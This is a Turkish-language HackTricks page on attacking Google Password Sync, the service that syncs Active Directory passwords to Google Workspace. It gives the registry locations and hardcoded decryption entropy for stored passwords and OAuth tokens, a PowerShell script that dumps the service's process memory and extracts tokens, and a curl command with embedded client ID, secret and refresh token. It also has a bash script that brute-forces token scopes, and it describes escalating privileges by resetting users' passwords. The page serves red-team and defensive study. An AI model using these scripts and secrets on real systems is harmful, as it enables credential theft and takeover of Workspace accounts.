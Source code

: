 # GPS - Google Password Sync

{% hint style="success" %}
AWS Hacking öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter**'da **bizi takip edin** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}

## Temel Bilgiler

Bu, Google'ın **AD ile Workspace arasındaki kullanıcıların şifrelerini senkronize tutmak için** sunduğu ikili dosya ve hizmettir. Bir kullanıcı AD'de şifresini her değiştirdiğinde, bu Google'a ayarlanır.

`C:\Program Files\Google\Password Sync` dizinine kurulur; burada yapılandırmak için `PasswordSync.exe` ikili dosyasını ve çalışmaya devam edecek olan `password_sync_service.exe` (hizmet) dosyasını bulabilirsiniz.

### GPS - Yapılandırma

Bu ikili dosyayı (ve hizmeti) yapılandırmak için, **Workspace'de bir Süper Yönetici yetkisi vermek** gerekmektedir:

* Google ile **OAuth** üzerinden giriş yapın ve ardından **kayıt defterinde (şifreli) bir token saklayacaktır**
* Sadece GUI'ye sahip Alan Denetleyicilerinde mevcuttur
* **Workspace kullanıcılarını yönetme** yetkisine sahip **GCP'den bazı Hizmet Hesabı kimlik bilgileri** (json dosyası) vermek
* Bu kimlik bilgileri asla süresi dolmadığı için çok kötü bir fikirdir ve kötüye kullanılabilir
* Workspace üzerinde bir SA'ya erişim vermek çok kötü bir fikirdir çünkü SA GCP'de tehlikeye girebilir ve Workspace'e geçiş yapmak mümkün olacaktır
* Google, GUI'siz alan denetimleri için bunu gerektirir
* Bu kimlik bilgileri de kayıt defterinde saklanır

AD ile ilgili olarak, mevcut **uygulama bağlamını, anonim veya bazı özel kimlik bilgilerini** kullanmasını belirtmek mümkündür. Kimlik bilgileri seçeneği seçilirse, **kullanıcı adı** bir dosyada **diskte** saklanır ve **şifre** **şifrelenir** ve **kayıt defterinde** saklanır.

### GPS - Diskten şifre ve token dökme

{% hint style="success" %}
[**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) **GPS**'yi tespit edebilir, yapılandırma hakkında bilgi alabilir ve **şifreyi ve token'ı bile şifreleyebilir**.
{% endhint %}

**`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** dosyasında, yapılandırmanın bir kısmını bulmak mümkündür; burada yapılandırılan AD'nin **`baseDN`** ve kullanılan kimlik bilgileri olan **`username`** yer alır.

Kayıt defterinde **`HKLM\Software\Google\Google Apps Password Sync`** altında, AD kullanıcısı için **şifrelenmiş yenileme token'ı** ve **şifrelenmiş şifre** bulunabilir (varsa). Ayrıca, bir token yerine bazı **SA kimlik bilgileri** kullanılıyorsa, bu kimlik bilgileri de o kayıt defteri adresinde şifrelenmiş olarak bulunabilir. Bu kayıt defterindeki **değerler** yalnızca **Yönetici** tarafından **erişilebilir**.

Şifrelenmiş **şifre** (varsa) **`ADPassword`** anahtarının içindedir ve **`CryptProtectData`** API'si kullanılarak şifrelenmiştir. Şifreyi çözmek için, şifre senkronizasyonunu yapılandıran kullanıcı ile aynı kullanıcı olmanız ve **`CryptUnprotectData`** kullanırken bu **entropy**'yi kullanmanız gerekir: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Şifrelenmiş token (varsa) **`AuthToken`** anahtarının içindedir ve **`CryptProtectData`** API'si kullanılarak şifrelenmiştir. Şifreyi çözmek için, şifre senkronizasyonunu yapılandıran kullanıcı ile aynı kullanıcı olmanız ve **`CryptUnprotectData`** kullanırken bu **entropy**'yi kullanmanız gerekir: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Ayrıca, **`0123456789abcdefghijklmnopqrstv`** sözlüğü ile base32hex kullanılarak da kodlanmıştır.

Entropy değerleri, aracı kullanarak bulundu. Araç, **`CryptUnprotectData`** ve **`CryptProtectData`** çağrılarını izlemek için yapılandırıldı ve ardından `PasswordSync.exe`'yi başlatmak ve izlemek için kullanıldı; bu, yapılandırılan şifreyi ve kimlik doğrulama token'ını başta çözmekte ve araç, her iki durumda kullanılan **entropy** değerlerini **gösterecektir**:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Bu API'lere yapılan çağrıların giriş veya çıkışında **şifrelenmemiş** değerleri görmek de mümkündür (eğer bir noktada Winpeas çalışmayı durdurursa).

Eğer Şifre Senkronizasyonu **SA kimlik bilgileri ile yapılandırılmışsa**, bu da kayıt defterinde **`HKLM\Software\Google\Google Apps Password Sync`** anahtarları içinde saklanacaktır.

### GPS - Bellekten token dökme

GCPW ile olduğu gibi, `PasswordSync.exe` ve `password_sync_service.exe` süreçlerinin belleğini dökmek mümkündür ve yenileme ve erişim token'larını bulabileceksiniz (eğer zaten oluşturulmuşlarsa).\
Ayrıca, AD yapılandırılmış kimlik bilgilerini de bulabilirsiniz.

<details>

<summary>Dump <code>PasswordSync.exe</code> ve <code>password_sync_service.exe</code> süreçlerini ve token'ları arayın</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Yenileme jetonlarından erişim jetonları oluşturma

Yenileme jetonunu kullanarak, aşağıdaki komutta belirtilen istemci kimliği ve istemci sırrını kullanarak erişim jetonları oluşturmak mümkündür:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Kapsamlar

{% hint style="info" %}
Bir yenileme token'ına sahip olsanız bile, erişim token'ı için herhangi bir kapsam talep etmek mümkün değildir çünkü yalnızca **erişim token'ını oluşturduğunuz uygulama tarafından desteklenen kapsamları talep edebilirsiniz**.

Ayrıca, yenileme token'ı her uygulamada geçerli değildir.
{% endhint %}

Varsayılan olarak GPS, kullanıcı olarak her olası OAuth kapsamına erişime sahip olmayacaktır, bu nedenle aşağıdaki betiği kullanarak `refresh_token` ile bir `access_token` oluşturmak için kullanılabilecek kapsamları bulabiliriz:

<details>

<summary>Kapsamları zorlamak için Bash betiği</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

Ve yazma anında aldığım çıktı:
```
https://www.googleapis.com/auth/admin.directory.user
```
Hangi, herhangi bir kapsam belirtmediğinizde aldığınızla aynıdır.

{% hint style="danger" %}
Bu kapsamla, **mevcut bir kullanıcının şifresini değiştirerek ayrıcalıkları artırabilirsiniz**.
{% endhint %}

{% hint style="success" %}
AWS Hacking'i öğrenin ve pratik yapın:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
GCP Hacking'i öğrenin ve pratik yapın: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks'i Destekleyin</summary>

* [**abonelik planlarını**](https://github.com/sponsors/carlospolop) kontrol edin!
* **💬 [**Discord grubuna**](https://discord.gg/hRep4RUj7f) veya [**telegram grubuna**](https://t.me/peass) katılın ya da **Twitter'da** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**'i takip edin.**
* **Hacking ipuçlarını paylaşmak için** [**HackTricks**](https://github.com/carlospolop/hacktricks) ve [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github reposuna PR gönderin.

</details>
{% endhint %}
